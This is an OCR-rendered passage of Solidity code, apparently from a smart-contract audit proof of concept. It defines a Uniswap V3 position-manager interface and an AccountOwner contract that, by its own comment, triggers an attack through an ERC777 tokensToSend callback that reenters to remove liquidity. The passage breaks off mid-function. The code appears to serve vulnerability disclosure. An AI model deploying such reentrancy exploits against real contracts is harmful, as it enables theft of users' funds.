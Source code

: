     interface INonfungiblePositionManager {
         function positions(uint256 tokenId)
            external
            view
            returns (
                uint96 nonce,
                address operator,
                address token0,
                address token1,
                uint24 fee,
                int24 tickLower,
                int24 tickUpper,
                uint128 liquidity,
                uint256 feeGrowthInside0LastX128,
                uint256 feeGrowthInside1LastX128,
                uint128 tokensOwed0,
                uint128 tokensOwed1
            );
    
        struct DecreaseLiquidityParams {
            uint256 tokenId;
            uint128 liquidity;
            uint256 amount0Min;
            uint256 amount1Min;
            uint256 deadline;
        }
        function decreaseLiquidity(DecreaseLiquidityParams calldata params)
            external
            payable
            returns (uint256 amount0, uint256 amount1);
    }
    
     /// @notice AccountOwner contract that will trigger the attack via ERC777's `tokensToSend()` callback
    contract AccountOwner is IERC777Sender  {
    
            INonfungiblePositionManager public nonfungiblePositionManager;
    
            constructor(address _nonfungiblePositionManager) {
                nonfungiblePositionManager = INonfungiblePositionManager(_nonfungiblePositionManager);
            }
    
         function tokensToSend(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            // Remove liquidity from Uniswap position
           (
                ,
                ,
                ,
                ,
                ,
                ,
                 ,
                uint128 liquidity,
                ,
                ,
                ,
            ) = nonfungiblePositionManager.positions(1); // tokenId 1
    